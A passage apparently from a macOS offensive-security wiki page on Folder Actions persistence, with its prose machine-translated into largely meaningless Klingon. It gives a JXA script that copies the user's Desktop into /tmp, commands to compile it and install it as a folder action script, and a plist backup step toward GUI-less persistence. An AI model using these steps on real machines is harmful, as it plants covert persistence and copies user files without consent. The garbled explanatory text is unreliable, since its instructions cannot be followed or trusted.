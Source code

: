{% code title="source.js" %}
```applescript
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("touch /tmp/folderaction.txt");
app.doShellScript("touch ~/Desktop/folderaction.txt");
app.doShellScript("mkdir /tmp/asd123");
app.doShellScript("cp -R ~/Desktop /tmp/asd123");
```
{% endcode %}

Compile it with: `osacompile -l JavaScript -o folder.scpt source.js`

Move it to:
```bash
mkdir -p "$HOME/Library/Scripts/Folder Action Scripts"
mv /tmp/folder.scpt "$HOME/Library/Scripts/Folder Action Scripts"
```
ngoD, 'ej 'opnIS 'e' vItlhutlh **Folder Actions Setup** 'app, **'ej **'opnIS** **'ej **`folder.scpt`** (jatlh **output2.scp** jatlh) **'ej** **'opnIS** **'ej** **Finder** 'ej, **script** 'ej.

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt="" width="297"><figcaption></figcaption></figure>

vaj **plist** **'ej** **`~/Library/Preferences/com.apple.FolderActionsDispatcher.plist`** **base64** format.

ngoD, **persistence** **GUI** **access**:

1. **'opnIS** **`~/Library/Preferences/com.apple.FolderActionsDispatcher.plist`** **`/tmp`** **backup**:
* `cp ~/Library/Preferences/com.apple.FolderActionsDispatcher.plist /tmp`
2. **Remove** **Folder Actions**:

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
